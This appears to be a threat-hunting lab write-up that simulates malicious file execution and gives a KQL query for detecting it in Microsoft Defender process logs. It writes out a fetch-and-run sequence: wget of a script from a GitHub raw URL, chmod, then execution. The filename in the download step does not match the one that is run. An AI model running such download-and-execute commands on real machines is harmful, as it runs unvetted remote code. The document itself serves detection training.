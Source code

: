 # Threat Event (Malicious File Execution)

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Downloaded a malicious file to the machine. `wget https://raw.githubusercontent.com/Goodka7/Threat-Hunting-Malicious-Execution-/refs/heads/main/resources/MaliciousFile.sh`
2. Make the file executable. `chmod +x malicious_script.sh`
3. Execute the malicious file, simulating a compromise. `./malicious_script.sh`

## Tables Used to Detect IoCs:

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceProcessEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose** | Used to detect the download, execution or modification of malicious files. |

## Related Queries:

```kql

DeviceProcessEvents
| where InitiatingProcessFileName in ("wget", "curl", "bash", "python", "perl")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessAccountDomain, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47
- **Date**: Febuary 5, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**
